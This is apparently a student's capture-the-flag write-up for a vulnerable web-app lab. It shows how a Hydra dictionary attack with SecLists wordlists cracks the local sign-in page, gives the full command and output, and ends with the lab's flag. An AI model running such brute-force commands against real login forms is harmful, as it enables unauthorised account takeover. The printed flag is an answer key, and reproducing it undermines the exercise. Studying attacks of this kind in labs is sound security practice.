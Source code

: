 ## Bruteforce attack with a dictionary

This vulnerability is on the signin page: http://localhost:8080/index.php?page=signin.

How to defend : password policy, non-simple passwords

intuition is last flag is probably signin page
let's try and bruteforce the password
installed hydra locally

```
10191  ./configure --prefix=$HOME/hydra\n
10192  make
10193  make install prefix=$HOME/hydra\n
```

dont' forget to source the path .zshrc

```
➜  ~ hydra -L sgoinfre/SecLists/Usernames/top-usernames-shortlist.txt -P sgoinfre/SecLists/Passwords/2020-200_most_used_passwords.txt -s 8080 localhost http-get-form "/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif"
Hydra v9.6dev (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-29 13:40:25
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3349 login tries (l:17/p:197), ~210 tries per task
[DATA] attacking http-get-form://localhost:8080/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif
[8080][http-get-form] host: localhost   login: root   password: shadow
[8080][http-get-form] host: localhost   login: admin   password: shadow
[STATUS] 407.00 tries/min, 407 tries in 00:01h, 2942 to do in 00:08h, 16 active
[8080][http-get-form] host: localhost   login: test   password: shadow
[8080][http-get-form] host: localhost   login: guest   password: shadow
[8080][http-get-form] host: localhost   login: info   password: shadow
[8080][http-get-form] host: localhost   login: adm   password: shadow
[STATUS] 400.33 tries/min, 1201 tries in 00:03h, 2148 to do in 00:06h, 16 active
[8080][http-get-form] host: localhost   login: mysql   password: shadow
[8080][http-get-form] host: localhost   login: user   password: shadow
[8080][http-get-form] host: localhost   login: administrator   password: shadow
[8080][http-get-form] host: localhost   login: oracle   password: shadow
[8080][http-get-form] host: localhost   login: ftp   password: shadow
[8080][http-get-form] host: localhost   login: pi   password: shadow
[8080][http-get-form] host: localhost   login: puppet   password: shadow
[8080][http-get-form] host: localhost   login: ansible   password: shadow
[STATUS] 397.57 tries/min, 2783 tries in 00:07h, 566 to do in 00:02h, 16 active
[8080][http-get-form] host: localhost   login: ec2-user   password: shadow
[8080][http-get-form] host: localhost   login: vagrant   password: shadow
[STATUS] 397.38 tries/min, 3179 tries in 00:08h, 170 to do in 00:01h, 16 active
[8080][http-get-form] host: localhost   login: azureuser   password: shadow
1 of 1 target successfully completed, 17 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-29 13:48:49
```

not very secure hm, using any user with shadow as password leads to : "The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 " !
